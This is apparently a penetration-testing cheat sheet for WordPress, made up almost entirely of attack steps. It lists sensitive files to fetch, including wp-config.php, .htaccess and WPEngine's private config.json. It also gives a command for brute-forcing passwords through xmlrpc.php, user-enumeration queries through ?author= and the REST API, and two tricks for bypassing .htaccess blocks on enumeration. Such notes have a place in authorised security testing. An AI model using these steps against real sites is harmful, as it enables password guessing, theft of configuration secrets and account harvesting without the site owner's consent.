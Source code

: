 #### Wordpress

Interesting files:
```
https://monsite.com/robots.txt
https://monsite.com/feed
https://monsite.com/readme.html
https://monsite.com/xmlrpc.php
```

Configuration files
```
https://monsite.com/.htaccess
https://monsite.com/wp-config.php
```

Directory listing
```
https://monsite.com/wp-includes  
```

XML-RPC attack
https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit

You can bruteforce users
```
 ./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1
```
If by any way you can upload files, go check /upload or /uploads for your files  

Get WPEngine's config file
```
/_wpeprivate/config.json
```
##### Scanning and enumeration 

Enumerate users
Users can be found using
```
?author=XXX
```

You can also use this using `/wp-json/wp/v2/users`, then iterate that way` /wp-json/wp/v2/users/1`  

If `/?author=1` is 403 Forbidden, you can bypass it
If the` .htaccess` blocks `"?author"`
Bypass 1 :
```
http://xxx.fr/?x&author=1 --> http://xxx.fr/author/chris/?x
```
Bypass 2 :
```
http://lictor.fr/index.php?author=1  
```

Another way
```
/wp-json/?rest_route=/wp/v2/users
```
